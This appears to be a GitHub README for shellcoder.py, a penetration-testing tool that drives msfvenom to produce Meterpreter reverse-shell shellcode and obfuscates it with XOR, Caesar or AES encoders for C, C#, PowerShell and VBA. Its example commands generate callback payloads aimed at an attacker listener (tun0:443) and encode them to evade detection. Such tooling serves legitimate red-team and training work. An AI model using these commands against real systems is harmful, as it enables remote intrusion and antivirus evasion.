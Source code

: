 # shellcoder.py
A tool I wrote to ease the process of shellcode generation and obfuscation!

## Getting Started
This tool has some dependencies that may need to be installed. It was written and tested on Kali Linux 2021.4 so most of the dependencies are already pre-installed. In the event you are using an older version or non-Kali install, you can get started by running the following commands:
```bash
sudo python3 -m pip install -r requirements.txt
```
This tool is dependent on msfvenom to generate raw shellcode files. If the Metasploit Framework is not installed on your system, here are the commands you will need to run to install it:
```bash
wget http://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
```
```bash
sudo chmod +x ./metasploit-latest-linux-x64-installer.run
```
```bash
sudo ./metasploit-latest-linux-x64-installer.run
```
## Generating shellcode
One of the main reasons I developed this tool was to automate the process of generating shellcode for both Windows and Linux using msfvenom. To generate shellcode you can run shellcoder.py with the -l flag to set the listening host, the -p flag to set the listening port, the -t flag to set the payload type, and most importantly the -g or --generate flag. Alternatively, you can can just run shellcoder.py with the -g or --generate flag and it will use the following default values:

- PAYLOAD=windows/x64/meterpreter/reverse_https
- LHOST=tun0
- LPORT=443
- OUTFILE=/tmp/raw_sc

Some example commands that can be used to generate shellcode with shellcoder.py are as follows:
```bash
python3 shellcoder.py -l tun0 -p 443 -t windows/x64/meterpreter/reverse_https -o raw_sc --generate
```

<p align="center">
<a href="/img/gen1.png"><img src="/img/gen1.png"></a>
 </p>
 
```bash
python3 shellcoder.py --generate
```

<p align="center">
<a href="/img/gen2.png"><img src="/img/gen2.png"></a>
 </p>

 ## Encoding shellcode
 There are a couple options you can choose from to encode shellcode. Here is a list of formats the shellcode can be encoded with:

- clang_aes
- clang_caesar
- clang_xor
- csharp_aes
- csharp_caesar
- csharp_xor
- ps1_aes
- ps1_caesar
- ps1_xor
- vba_aes
- vba_caesar
- vba_xor

To generate shellcode with shellcoder.py, you can supply the -e flag with the encoder type. If using ceasar options, use the -s or --shift switch with the number of rotations to do such as -s 3 for a key of 3. Optionally you can specify the input and output files with the -i and -o flags, respectively. If you do not specify an input file, shellcoder.py will look for the raw shellcode file located at /tmp/raw_sc. Here are some example commands that can be used to encode your shellcode:
```bash
python3 shellcoder.py -e csharp_xor -i raw_sc -o enc_sc.txt
```

<p align="center">
<a href="/img/enc1.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor -i raw_sc
 ```
 
 <p align="center">
<a href="/img/enc2.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor
 ```
 
  <p align="center">
<a href="/img/enc3.png"><img src="/img/enc3.png"></a>
 </p>
 
Similarly, the same can be done with aes.

For Ceasar, use the --s or -s switch to specify the rotations:
 ```bash
 python3 shellcoder.py -e  csharp_caesar -i raw_sc -s 5
 ```


 These are just a few examples of how raw shellcode files can be encoded. You can see the help page for more options with the following command:
```bash
python3 shellcoder.py -h
```

<p align="center">
<a href="/img/help.png"><img src="/img/help.png"></a>
 </p>

